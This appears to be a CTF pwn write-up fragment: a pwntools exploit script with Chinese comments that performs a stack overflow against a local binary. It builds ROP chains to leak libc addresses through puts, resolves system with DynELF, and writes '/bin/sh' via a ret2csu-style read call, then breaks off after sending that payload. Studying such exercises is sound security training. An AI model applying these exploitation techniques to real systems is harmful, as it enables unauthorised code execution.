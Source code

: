 ```
from pwn import *
from pwn import p64
from LibcSearcher import LibcSearcher


p = process('./pwn')

offset = 0x40+0x8
changereg_addr = 0x40075a

poprdi_addr = 0x400763
puts_plt = 0x400500
puts_got = 0x601018
read_plt = 0x400520
read_got = 0x601028
start_addr = 0x4006b8
bin_sh_addr = 0x601000
wanamov = 0x400740

pwn = ELF('./pwn')

def leak(addr):
    up = b''
    content = b''

    payload = b'a' * 0x48#栈溢出
    payload += p64(poprdi_addr)#gadget中的rdi的地址
    payload += p64(addr)#指定函数的地址
    payload += p64(puts_plt)#ROP的plt
    payload += p64(start_addr)#函数一开始的地方
    payload = payload.ljust(200,b'B')#其他地方填充垃圾数据
    #整体payload使用思想如下：
    #栈溢出覆盖ret到ROPgadget下的rdi处，指向指定函数的地址，使用ROP的plt再次重新启动start函数，在其他地方填充垃圾数据

    p.send(payload)
    p.recvuntil("bye~\n")
    while True: #防止未接收完整传回的数据
        c = p.recv(numb=1, timeout=0.1)
        if up == b'\n' and c == b"":
            content = content[:-1]+b'\x00'
            break
        else:
            content += c
            up = c
    content = content[:4]
    return content


#关于DynELF实现无libc的漏洞学习：https://www.anquanke.com/post/id/85129
d = DynELF(leak,elf=pwn)
system_addr = d.lookup('system', 'libc')

#rbx为0,rbp为1即可
#即rbx+1 = rbp
# r12作为被调用函数
# r13 = rdx，作为函数的第三个参数
# r14 = rsi，作为函数的第二个参数
# r15 = rdi，作为函数的第一个参数
payload = b'a' * offset + p64(changereg_addr) + p64(0) + p64(1) + p64(read_got)+p64(8)+p64(bin_sh_addr)+p64(0)
payload += p64(wanamov) + b'\x00' * 56 + p64(start_addr)
payload = payload.ljust(200,b'b')
p.send(payload)
```

[CTF-wiki]: https://ctf-wiki.org/pwn/linux/user-mode/environment/	"ctf-wiki知识库"
[CTFHub]: https://www.ctfhub.com/#/skilltree	"ctfhub技能树"
[攻防世界]: https://adworld.xctf.org.cn/challenges/list	"题库"